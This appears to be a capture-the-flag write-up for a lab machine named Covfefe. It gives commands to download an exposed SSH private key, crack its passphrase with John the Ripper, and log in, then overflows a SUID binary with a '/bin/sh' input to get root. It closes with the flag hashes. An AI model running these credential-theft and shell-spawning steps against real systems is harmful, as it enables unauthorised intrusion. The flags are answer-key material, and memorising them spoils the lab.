



# Covfefe

**IP Address:** 192.168.90.10

## Enumeration
### Open Ports
| Port #| Service | Details  |
|:------|:---------|:---------|
| 22 | ssh | OpenSSH 7.4p1 Debian 10 (protocol 2.0) |
| 80 | http | nginx 1.10.3 |
| 31337 | http | Werkzeug httpd 0.11.15 (Python 3.5.3) |

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul 29 14:38:08 2021 -- 1 IP address (1 host up) scanned in 36.44 seconds

## Exploitation
### Exploit Details (Found Credentials)
* **Name** - Found Credentials
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

1. Download the ssh key & authorized_keys file, and view the contents of the authorized_keys file to see the owner of the ssh key. 

Commands
```bash
wget http://192.168.90.10:31337/.ssh/id_rsa
wget http://192.168.90.10:31337/.ssh/authorized_keys
cat authorized_keys
chmod 600 id_rsa
```


2. Decrypt the credentials. 

Commands
```
ssh2john.py id_rsa > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


3. Login using the found credentials and the decrypted password (starwars)

```
ssh simon@$ip -i id_rsa
starwars
whoami
cat local.txt
```



## Privilege Escalation
### Exploit Details (Buffer Overflow / SUID)
* **Name** - Buffer Overflow / SUID
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

Searching for SUIDs we find /usr/local/bin/read_message which looks unusual. 

1. Running the commands and entering name 'Simon' shows the following message. 

Commands
```
/usr/local/bin/read_message
Simon
```


2. Viewing the source we can see that the buffer is set to be 20 Characters. 

Commands
```
cat /root/read_message.c
```



3. We can now enter more than 20 characters and overflow the buffer and spawn a shell. 

Commands
```bash
/usr/local/bin/read_message
SimonAAAAAAAAAAAAAAA/bin/sh
whoami
cat /root/proof.txt
```



## Loot
```
local.txt
245e937af75c2dcdea0723d9787dba1e
proof.txt
356fdbeef2a616adf2abb9b39392f016
```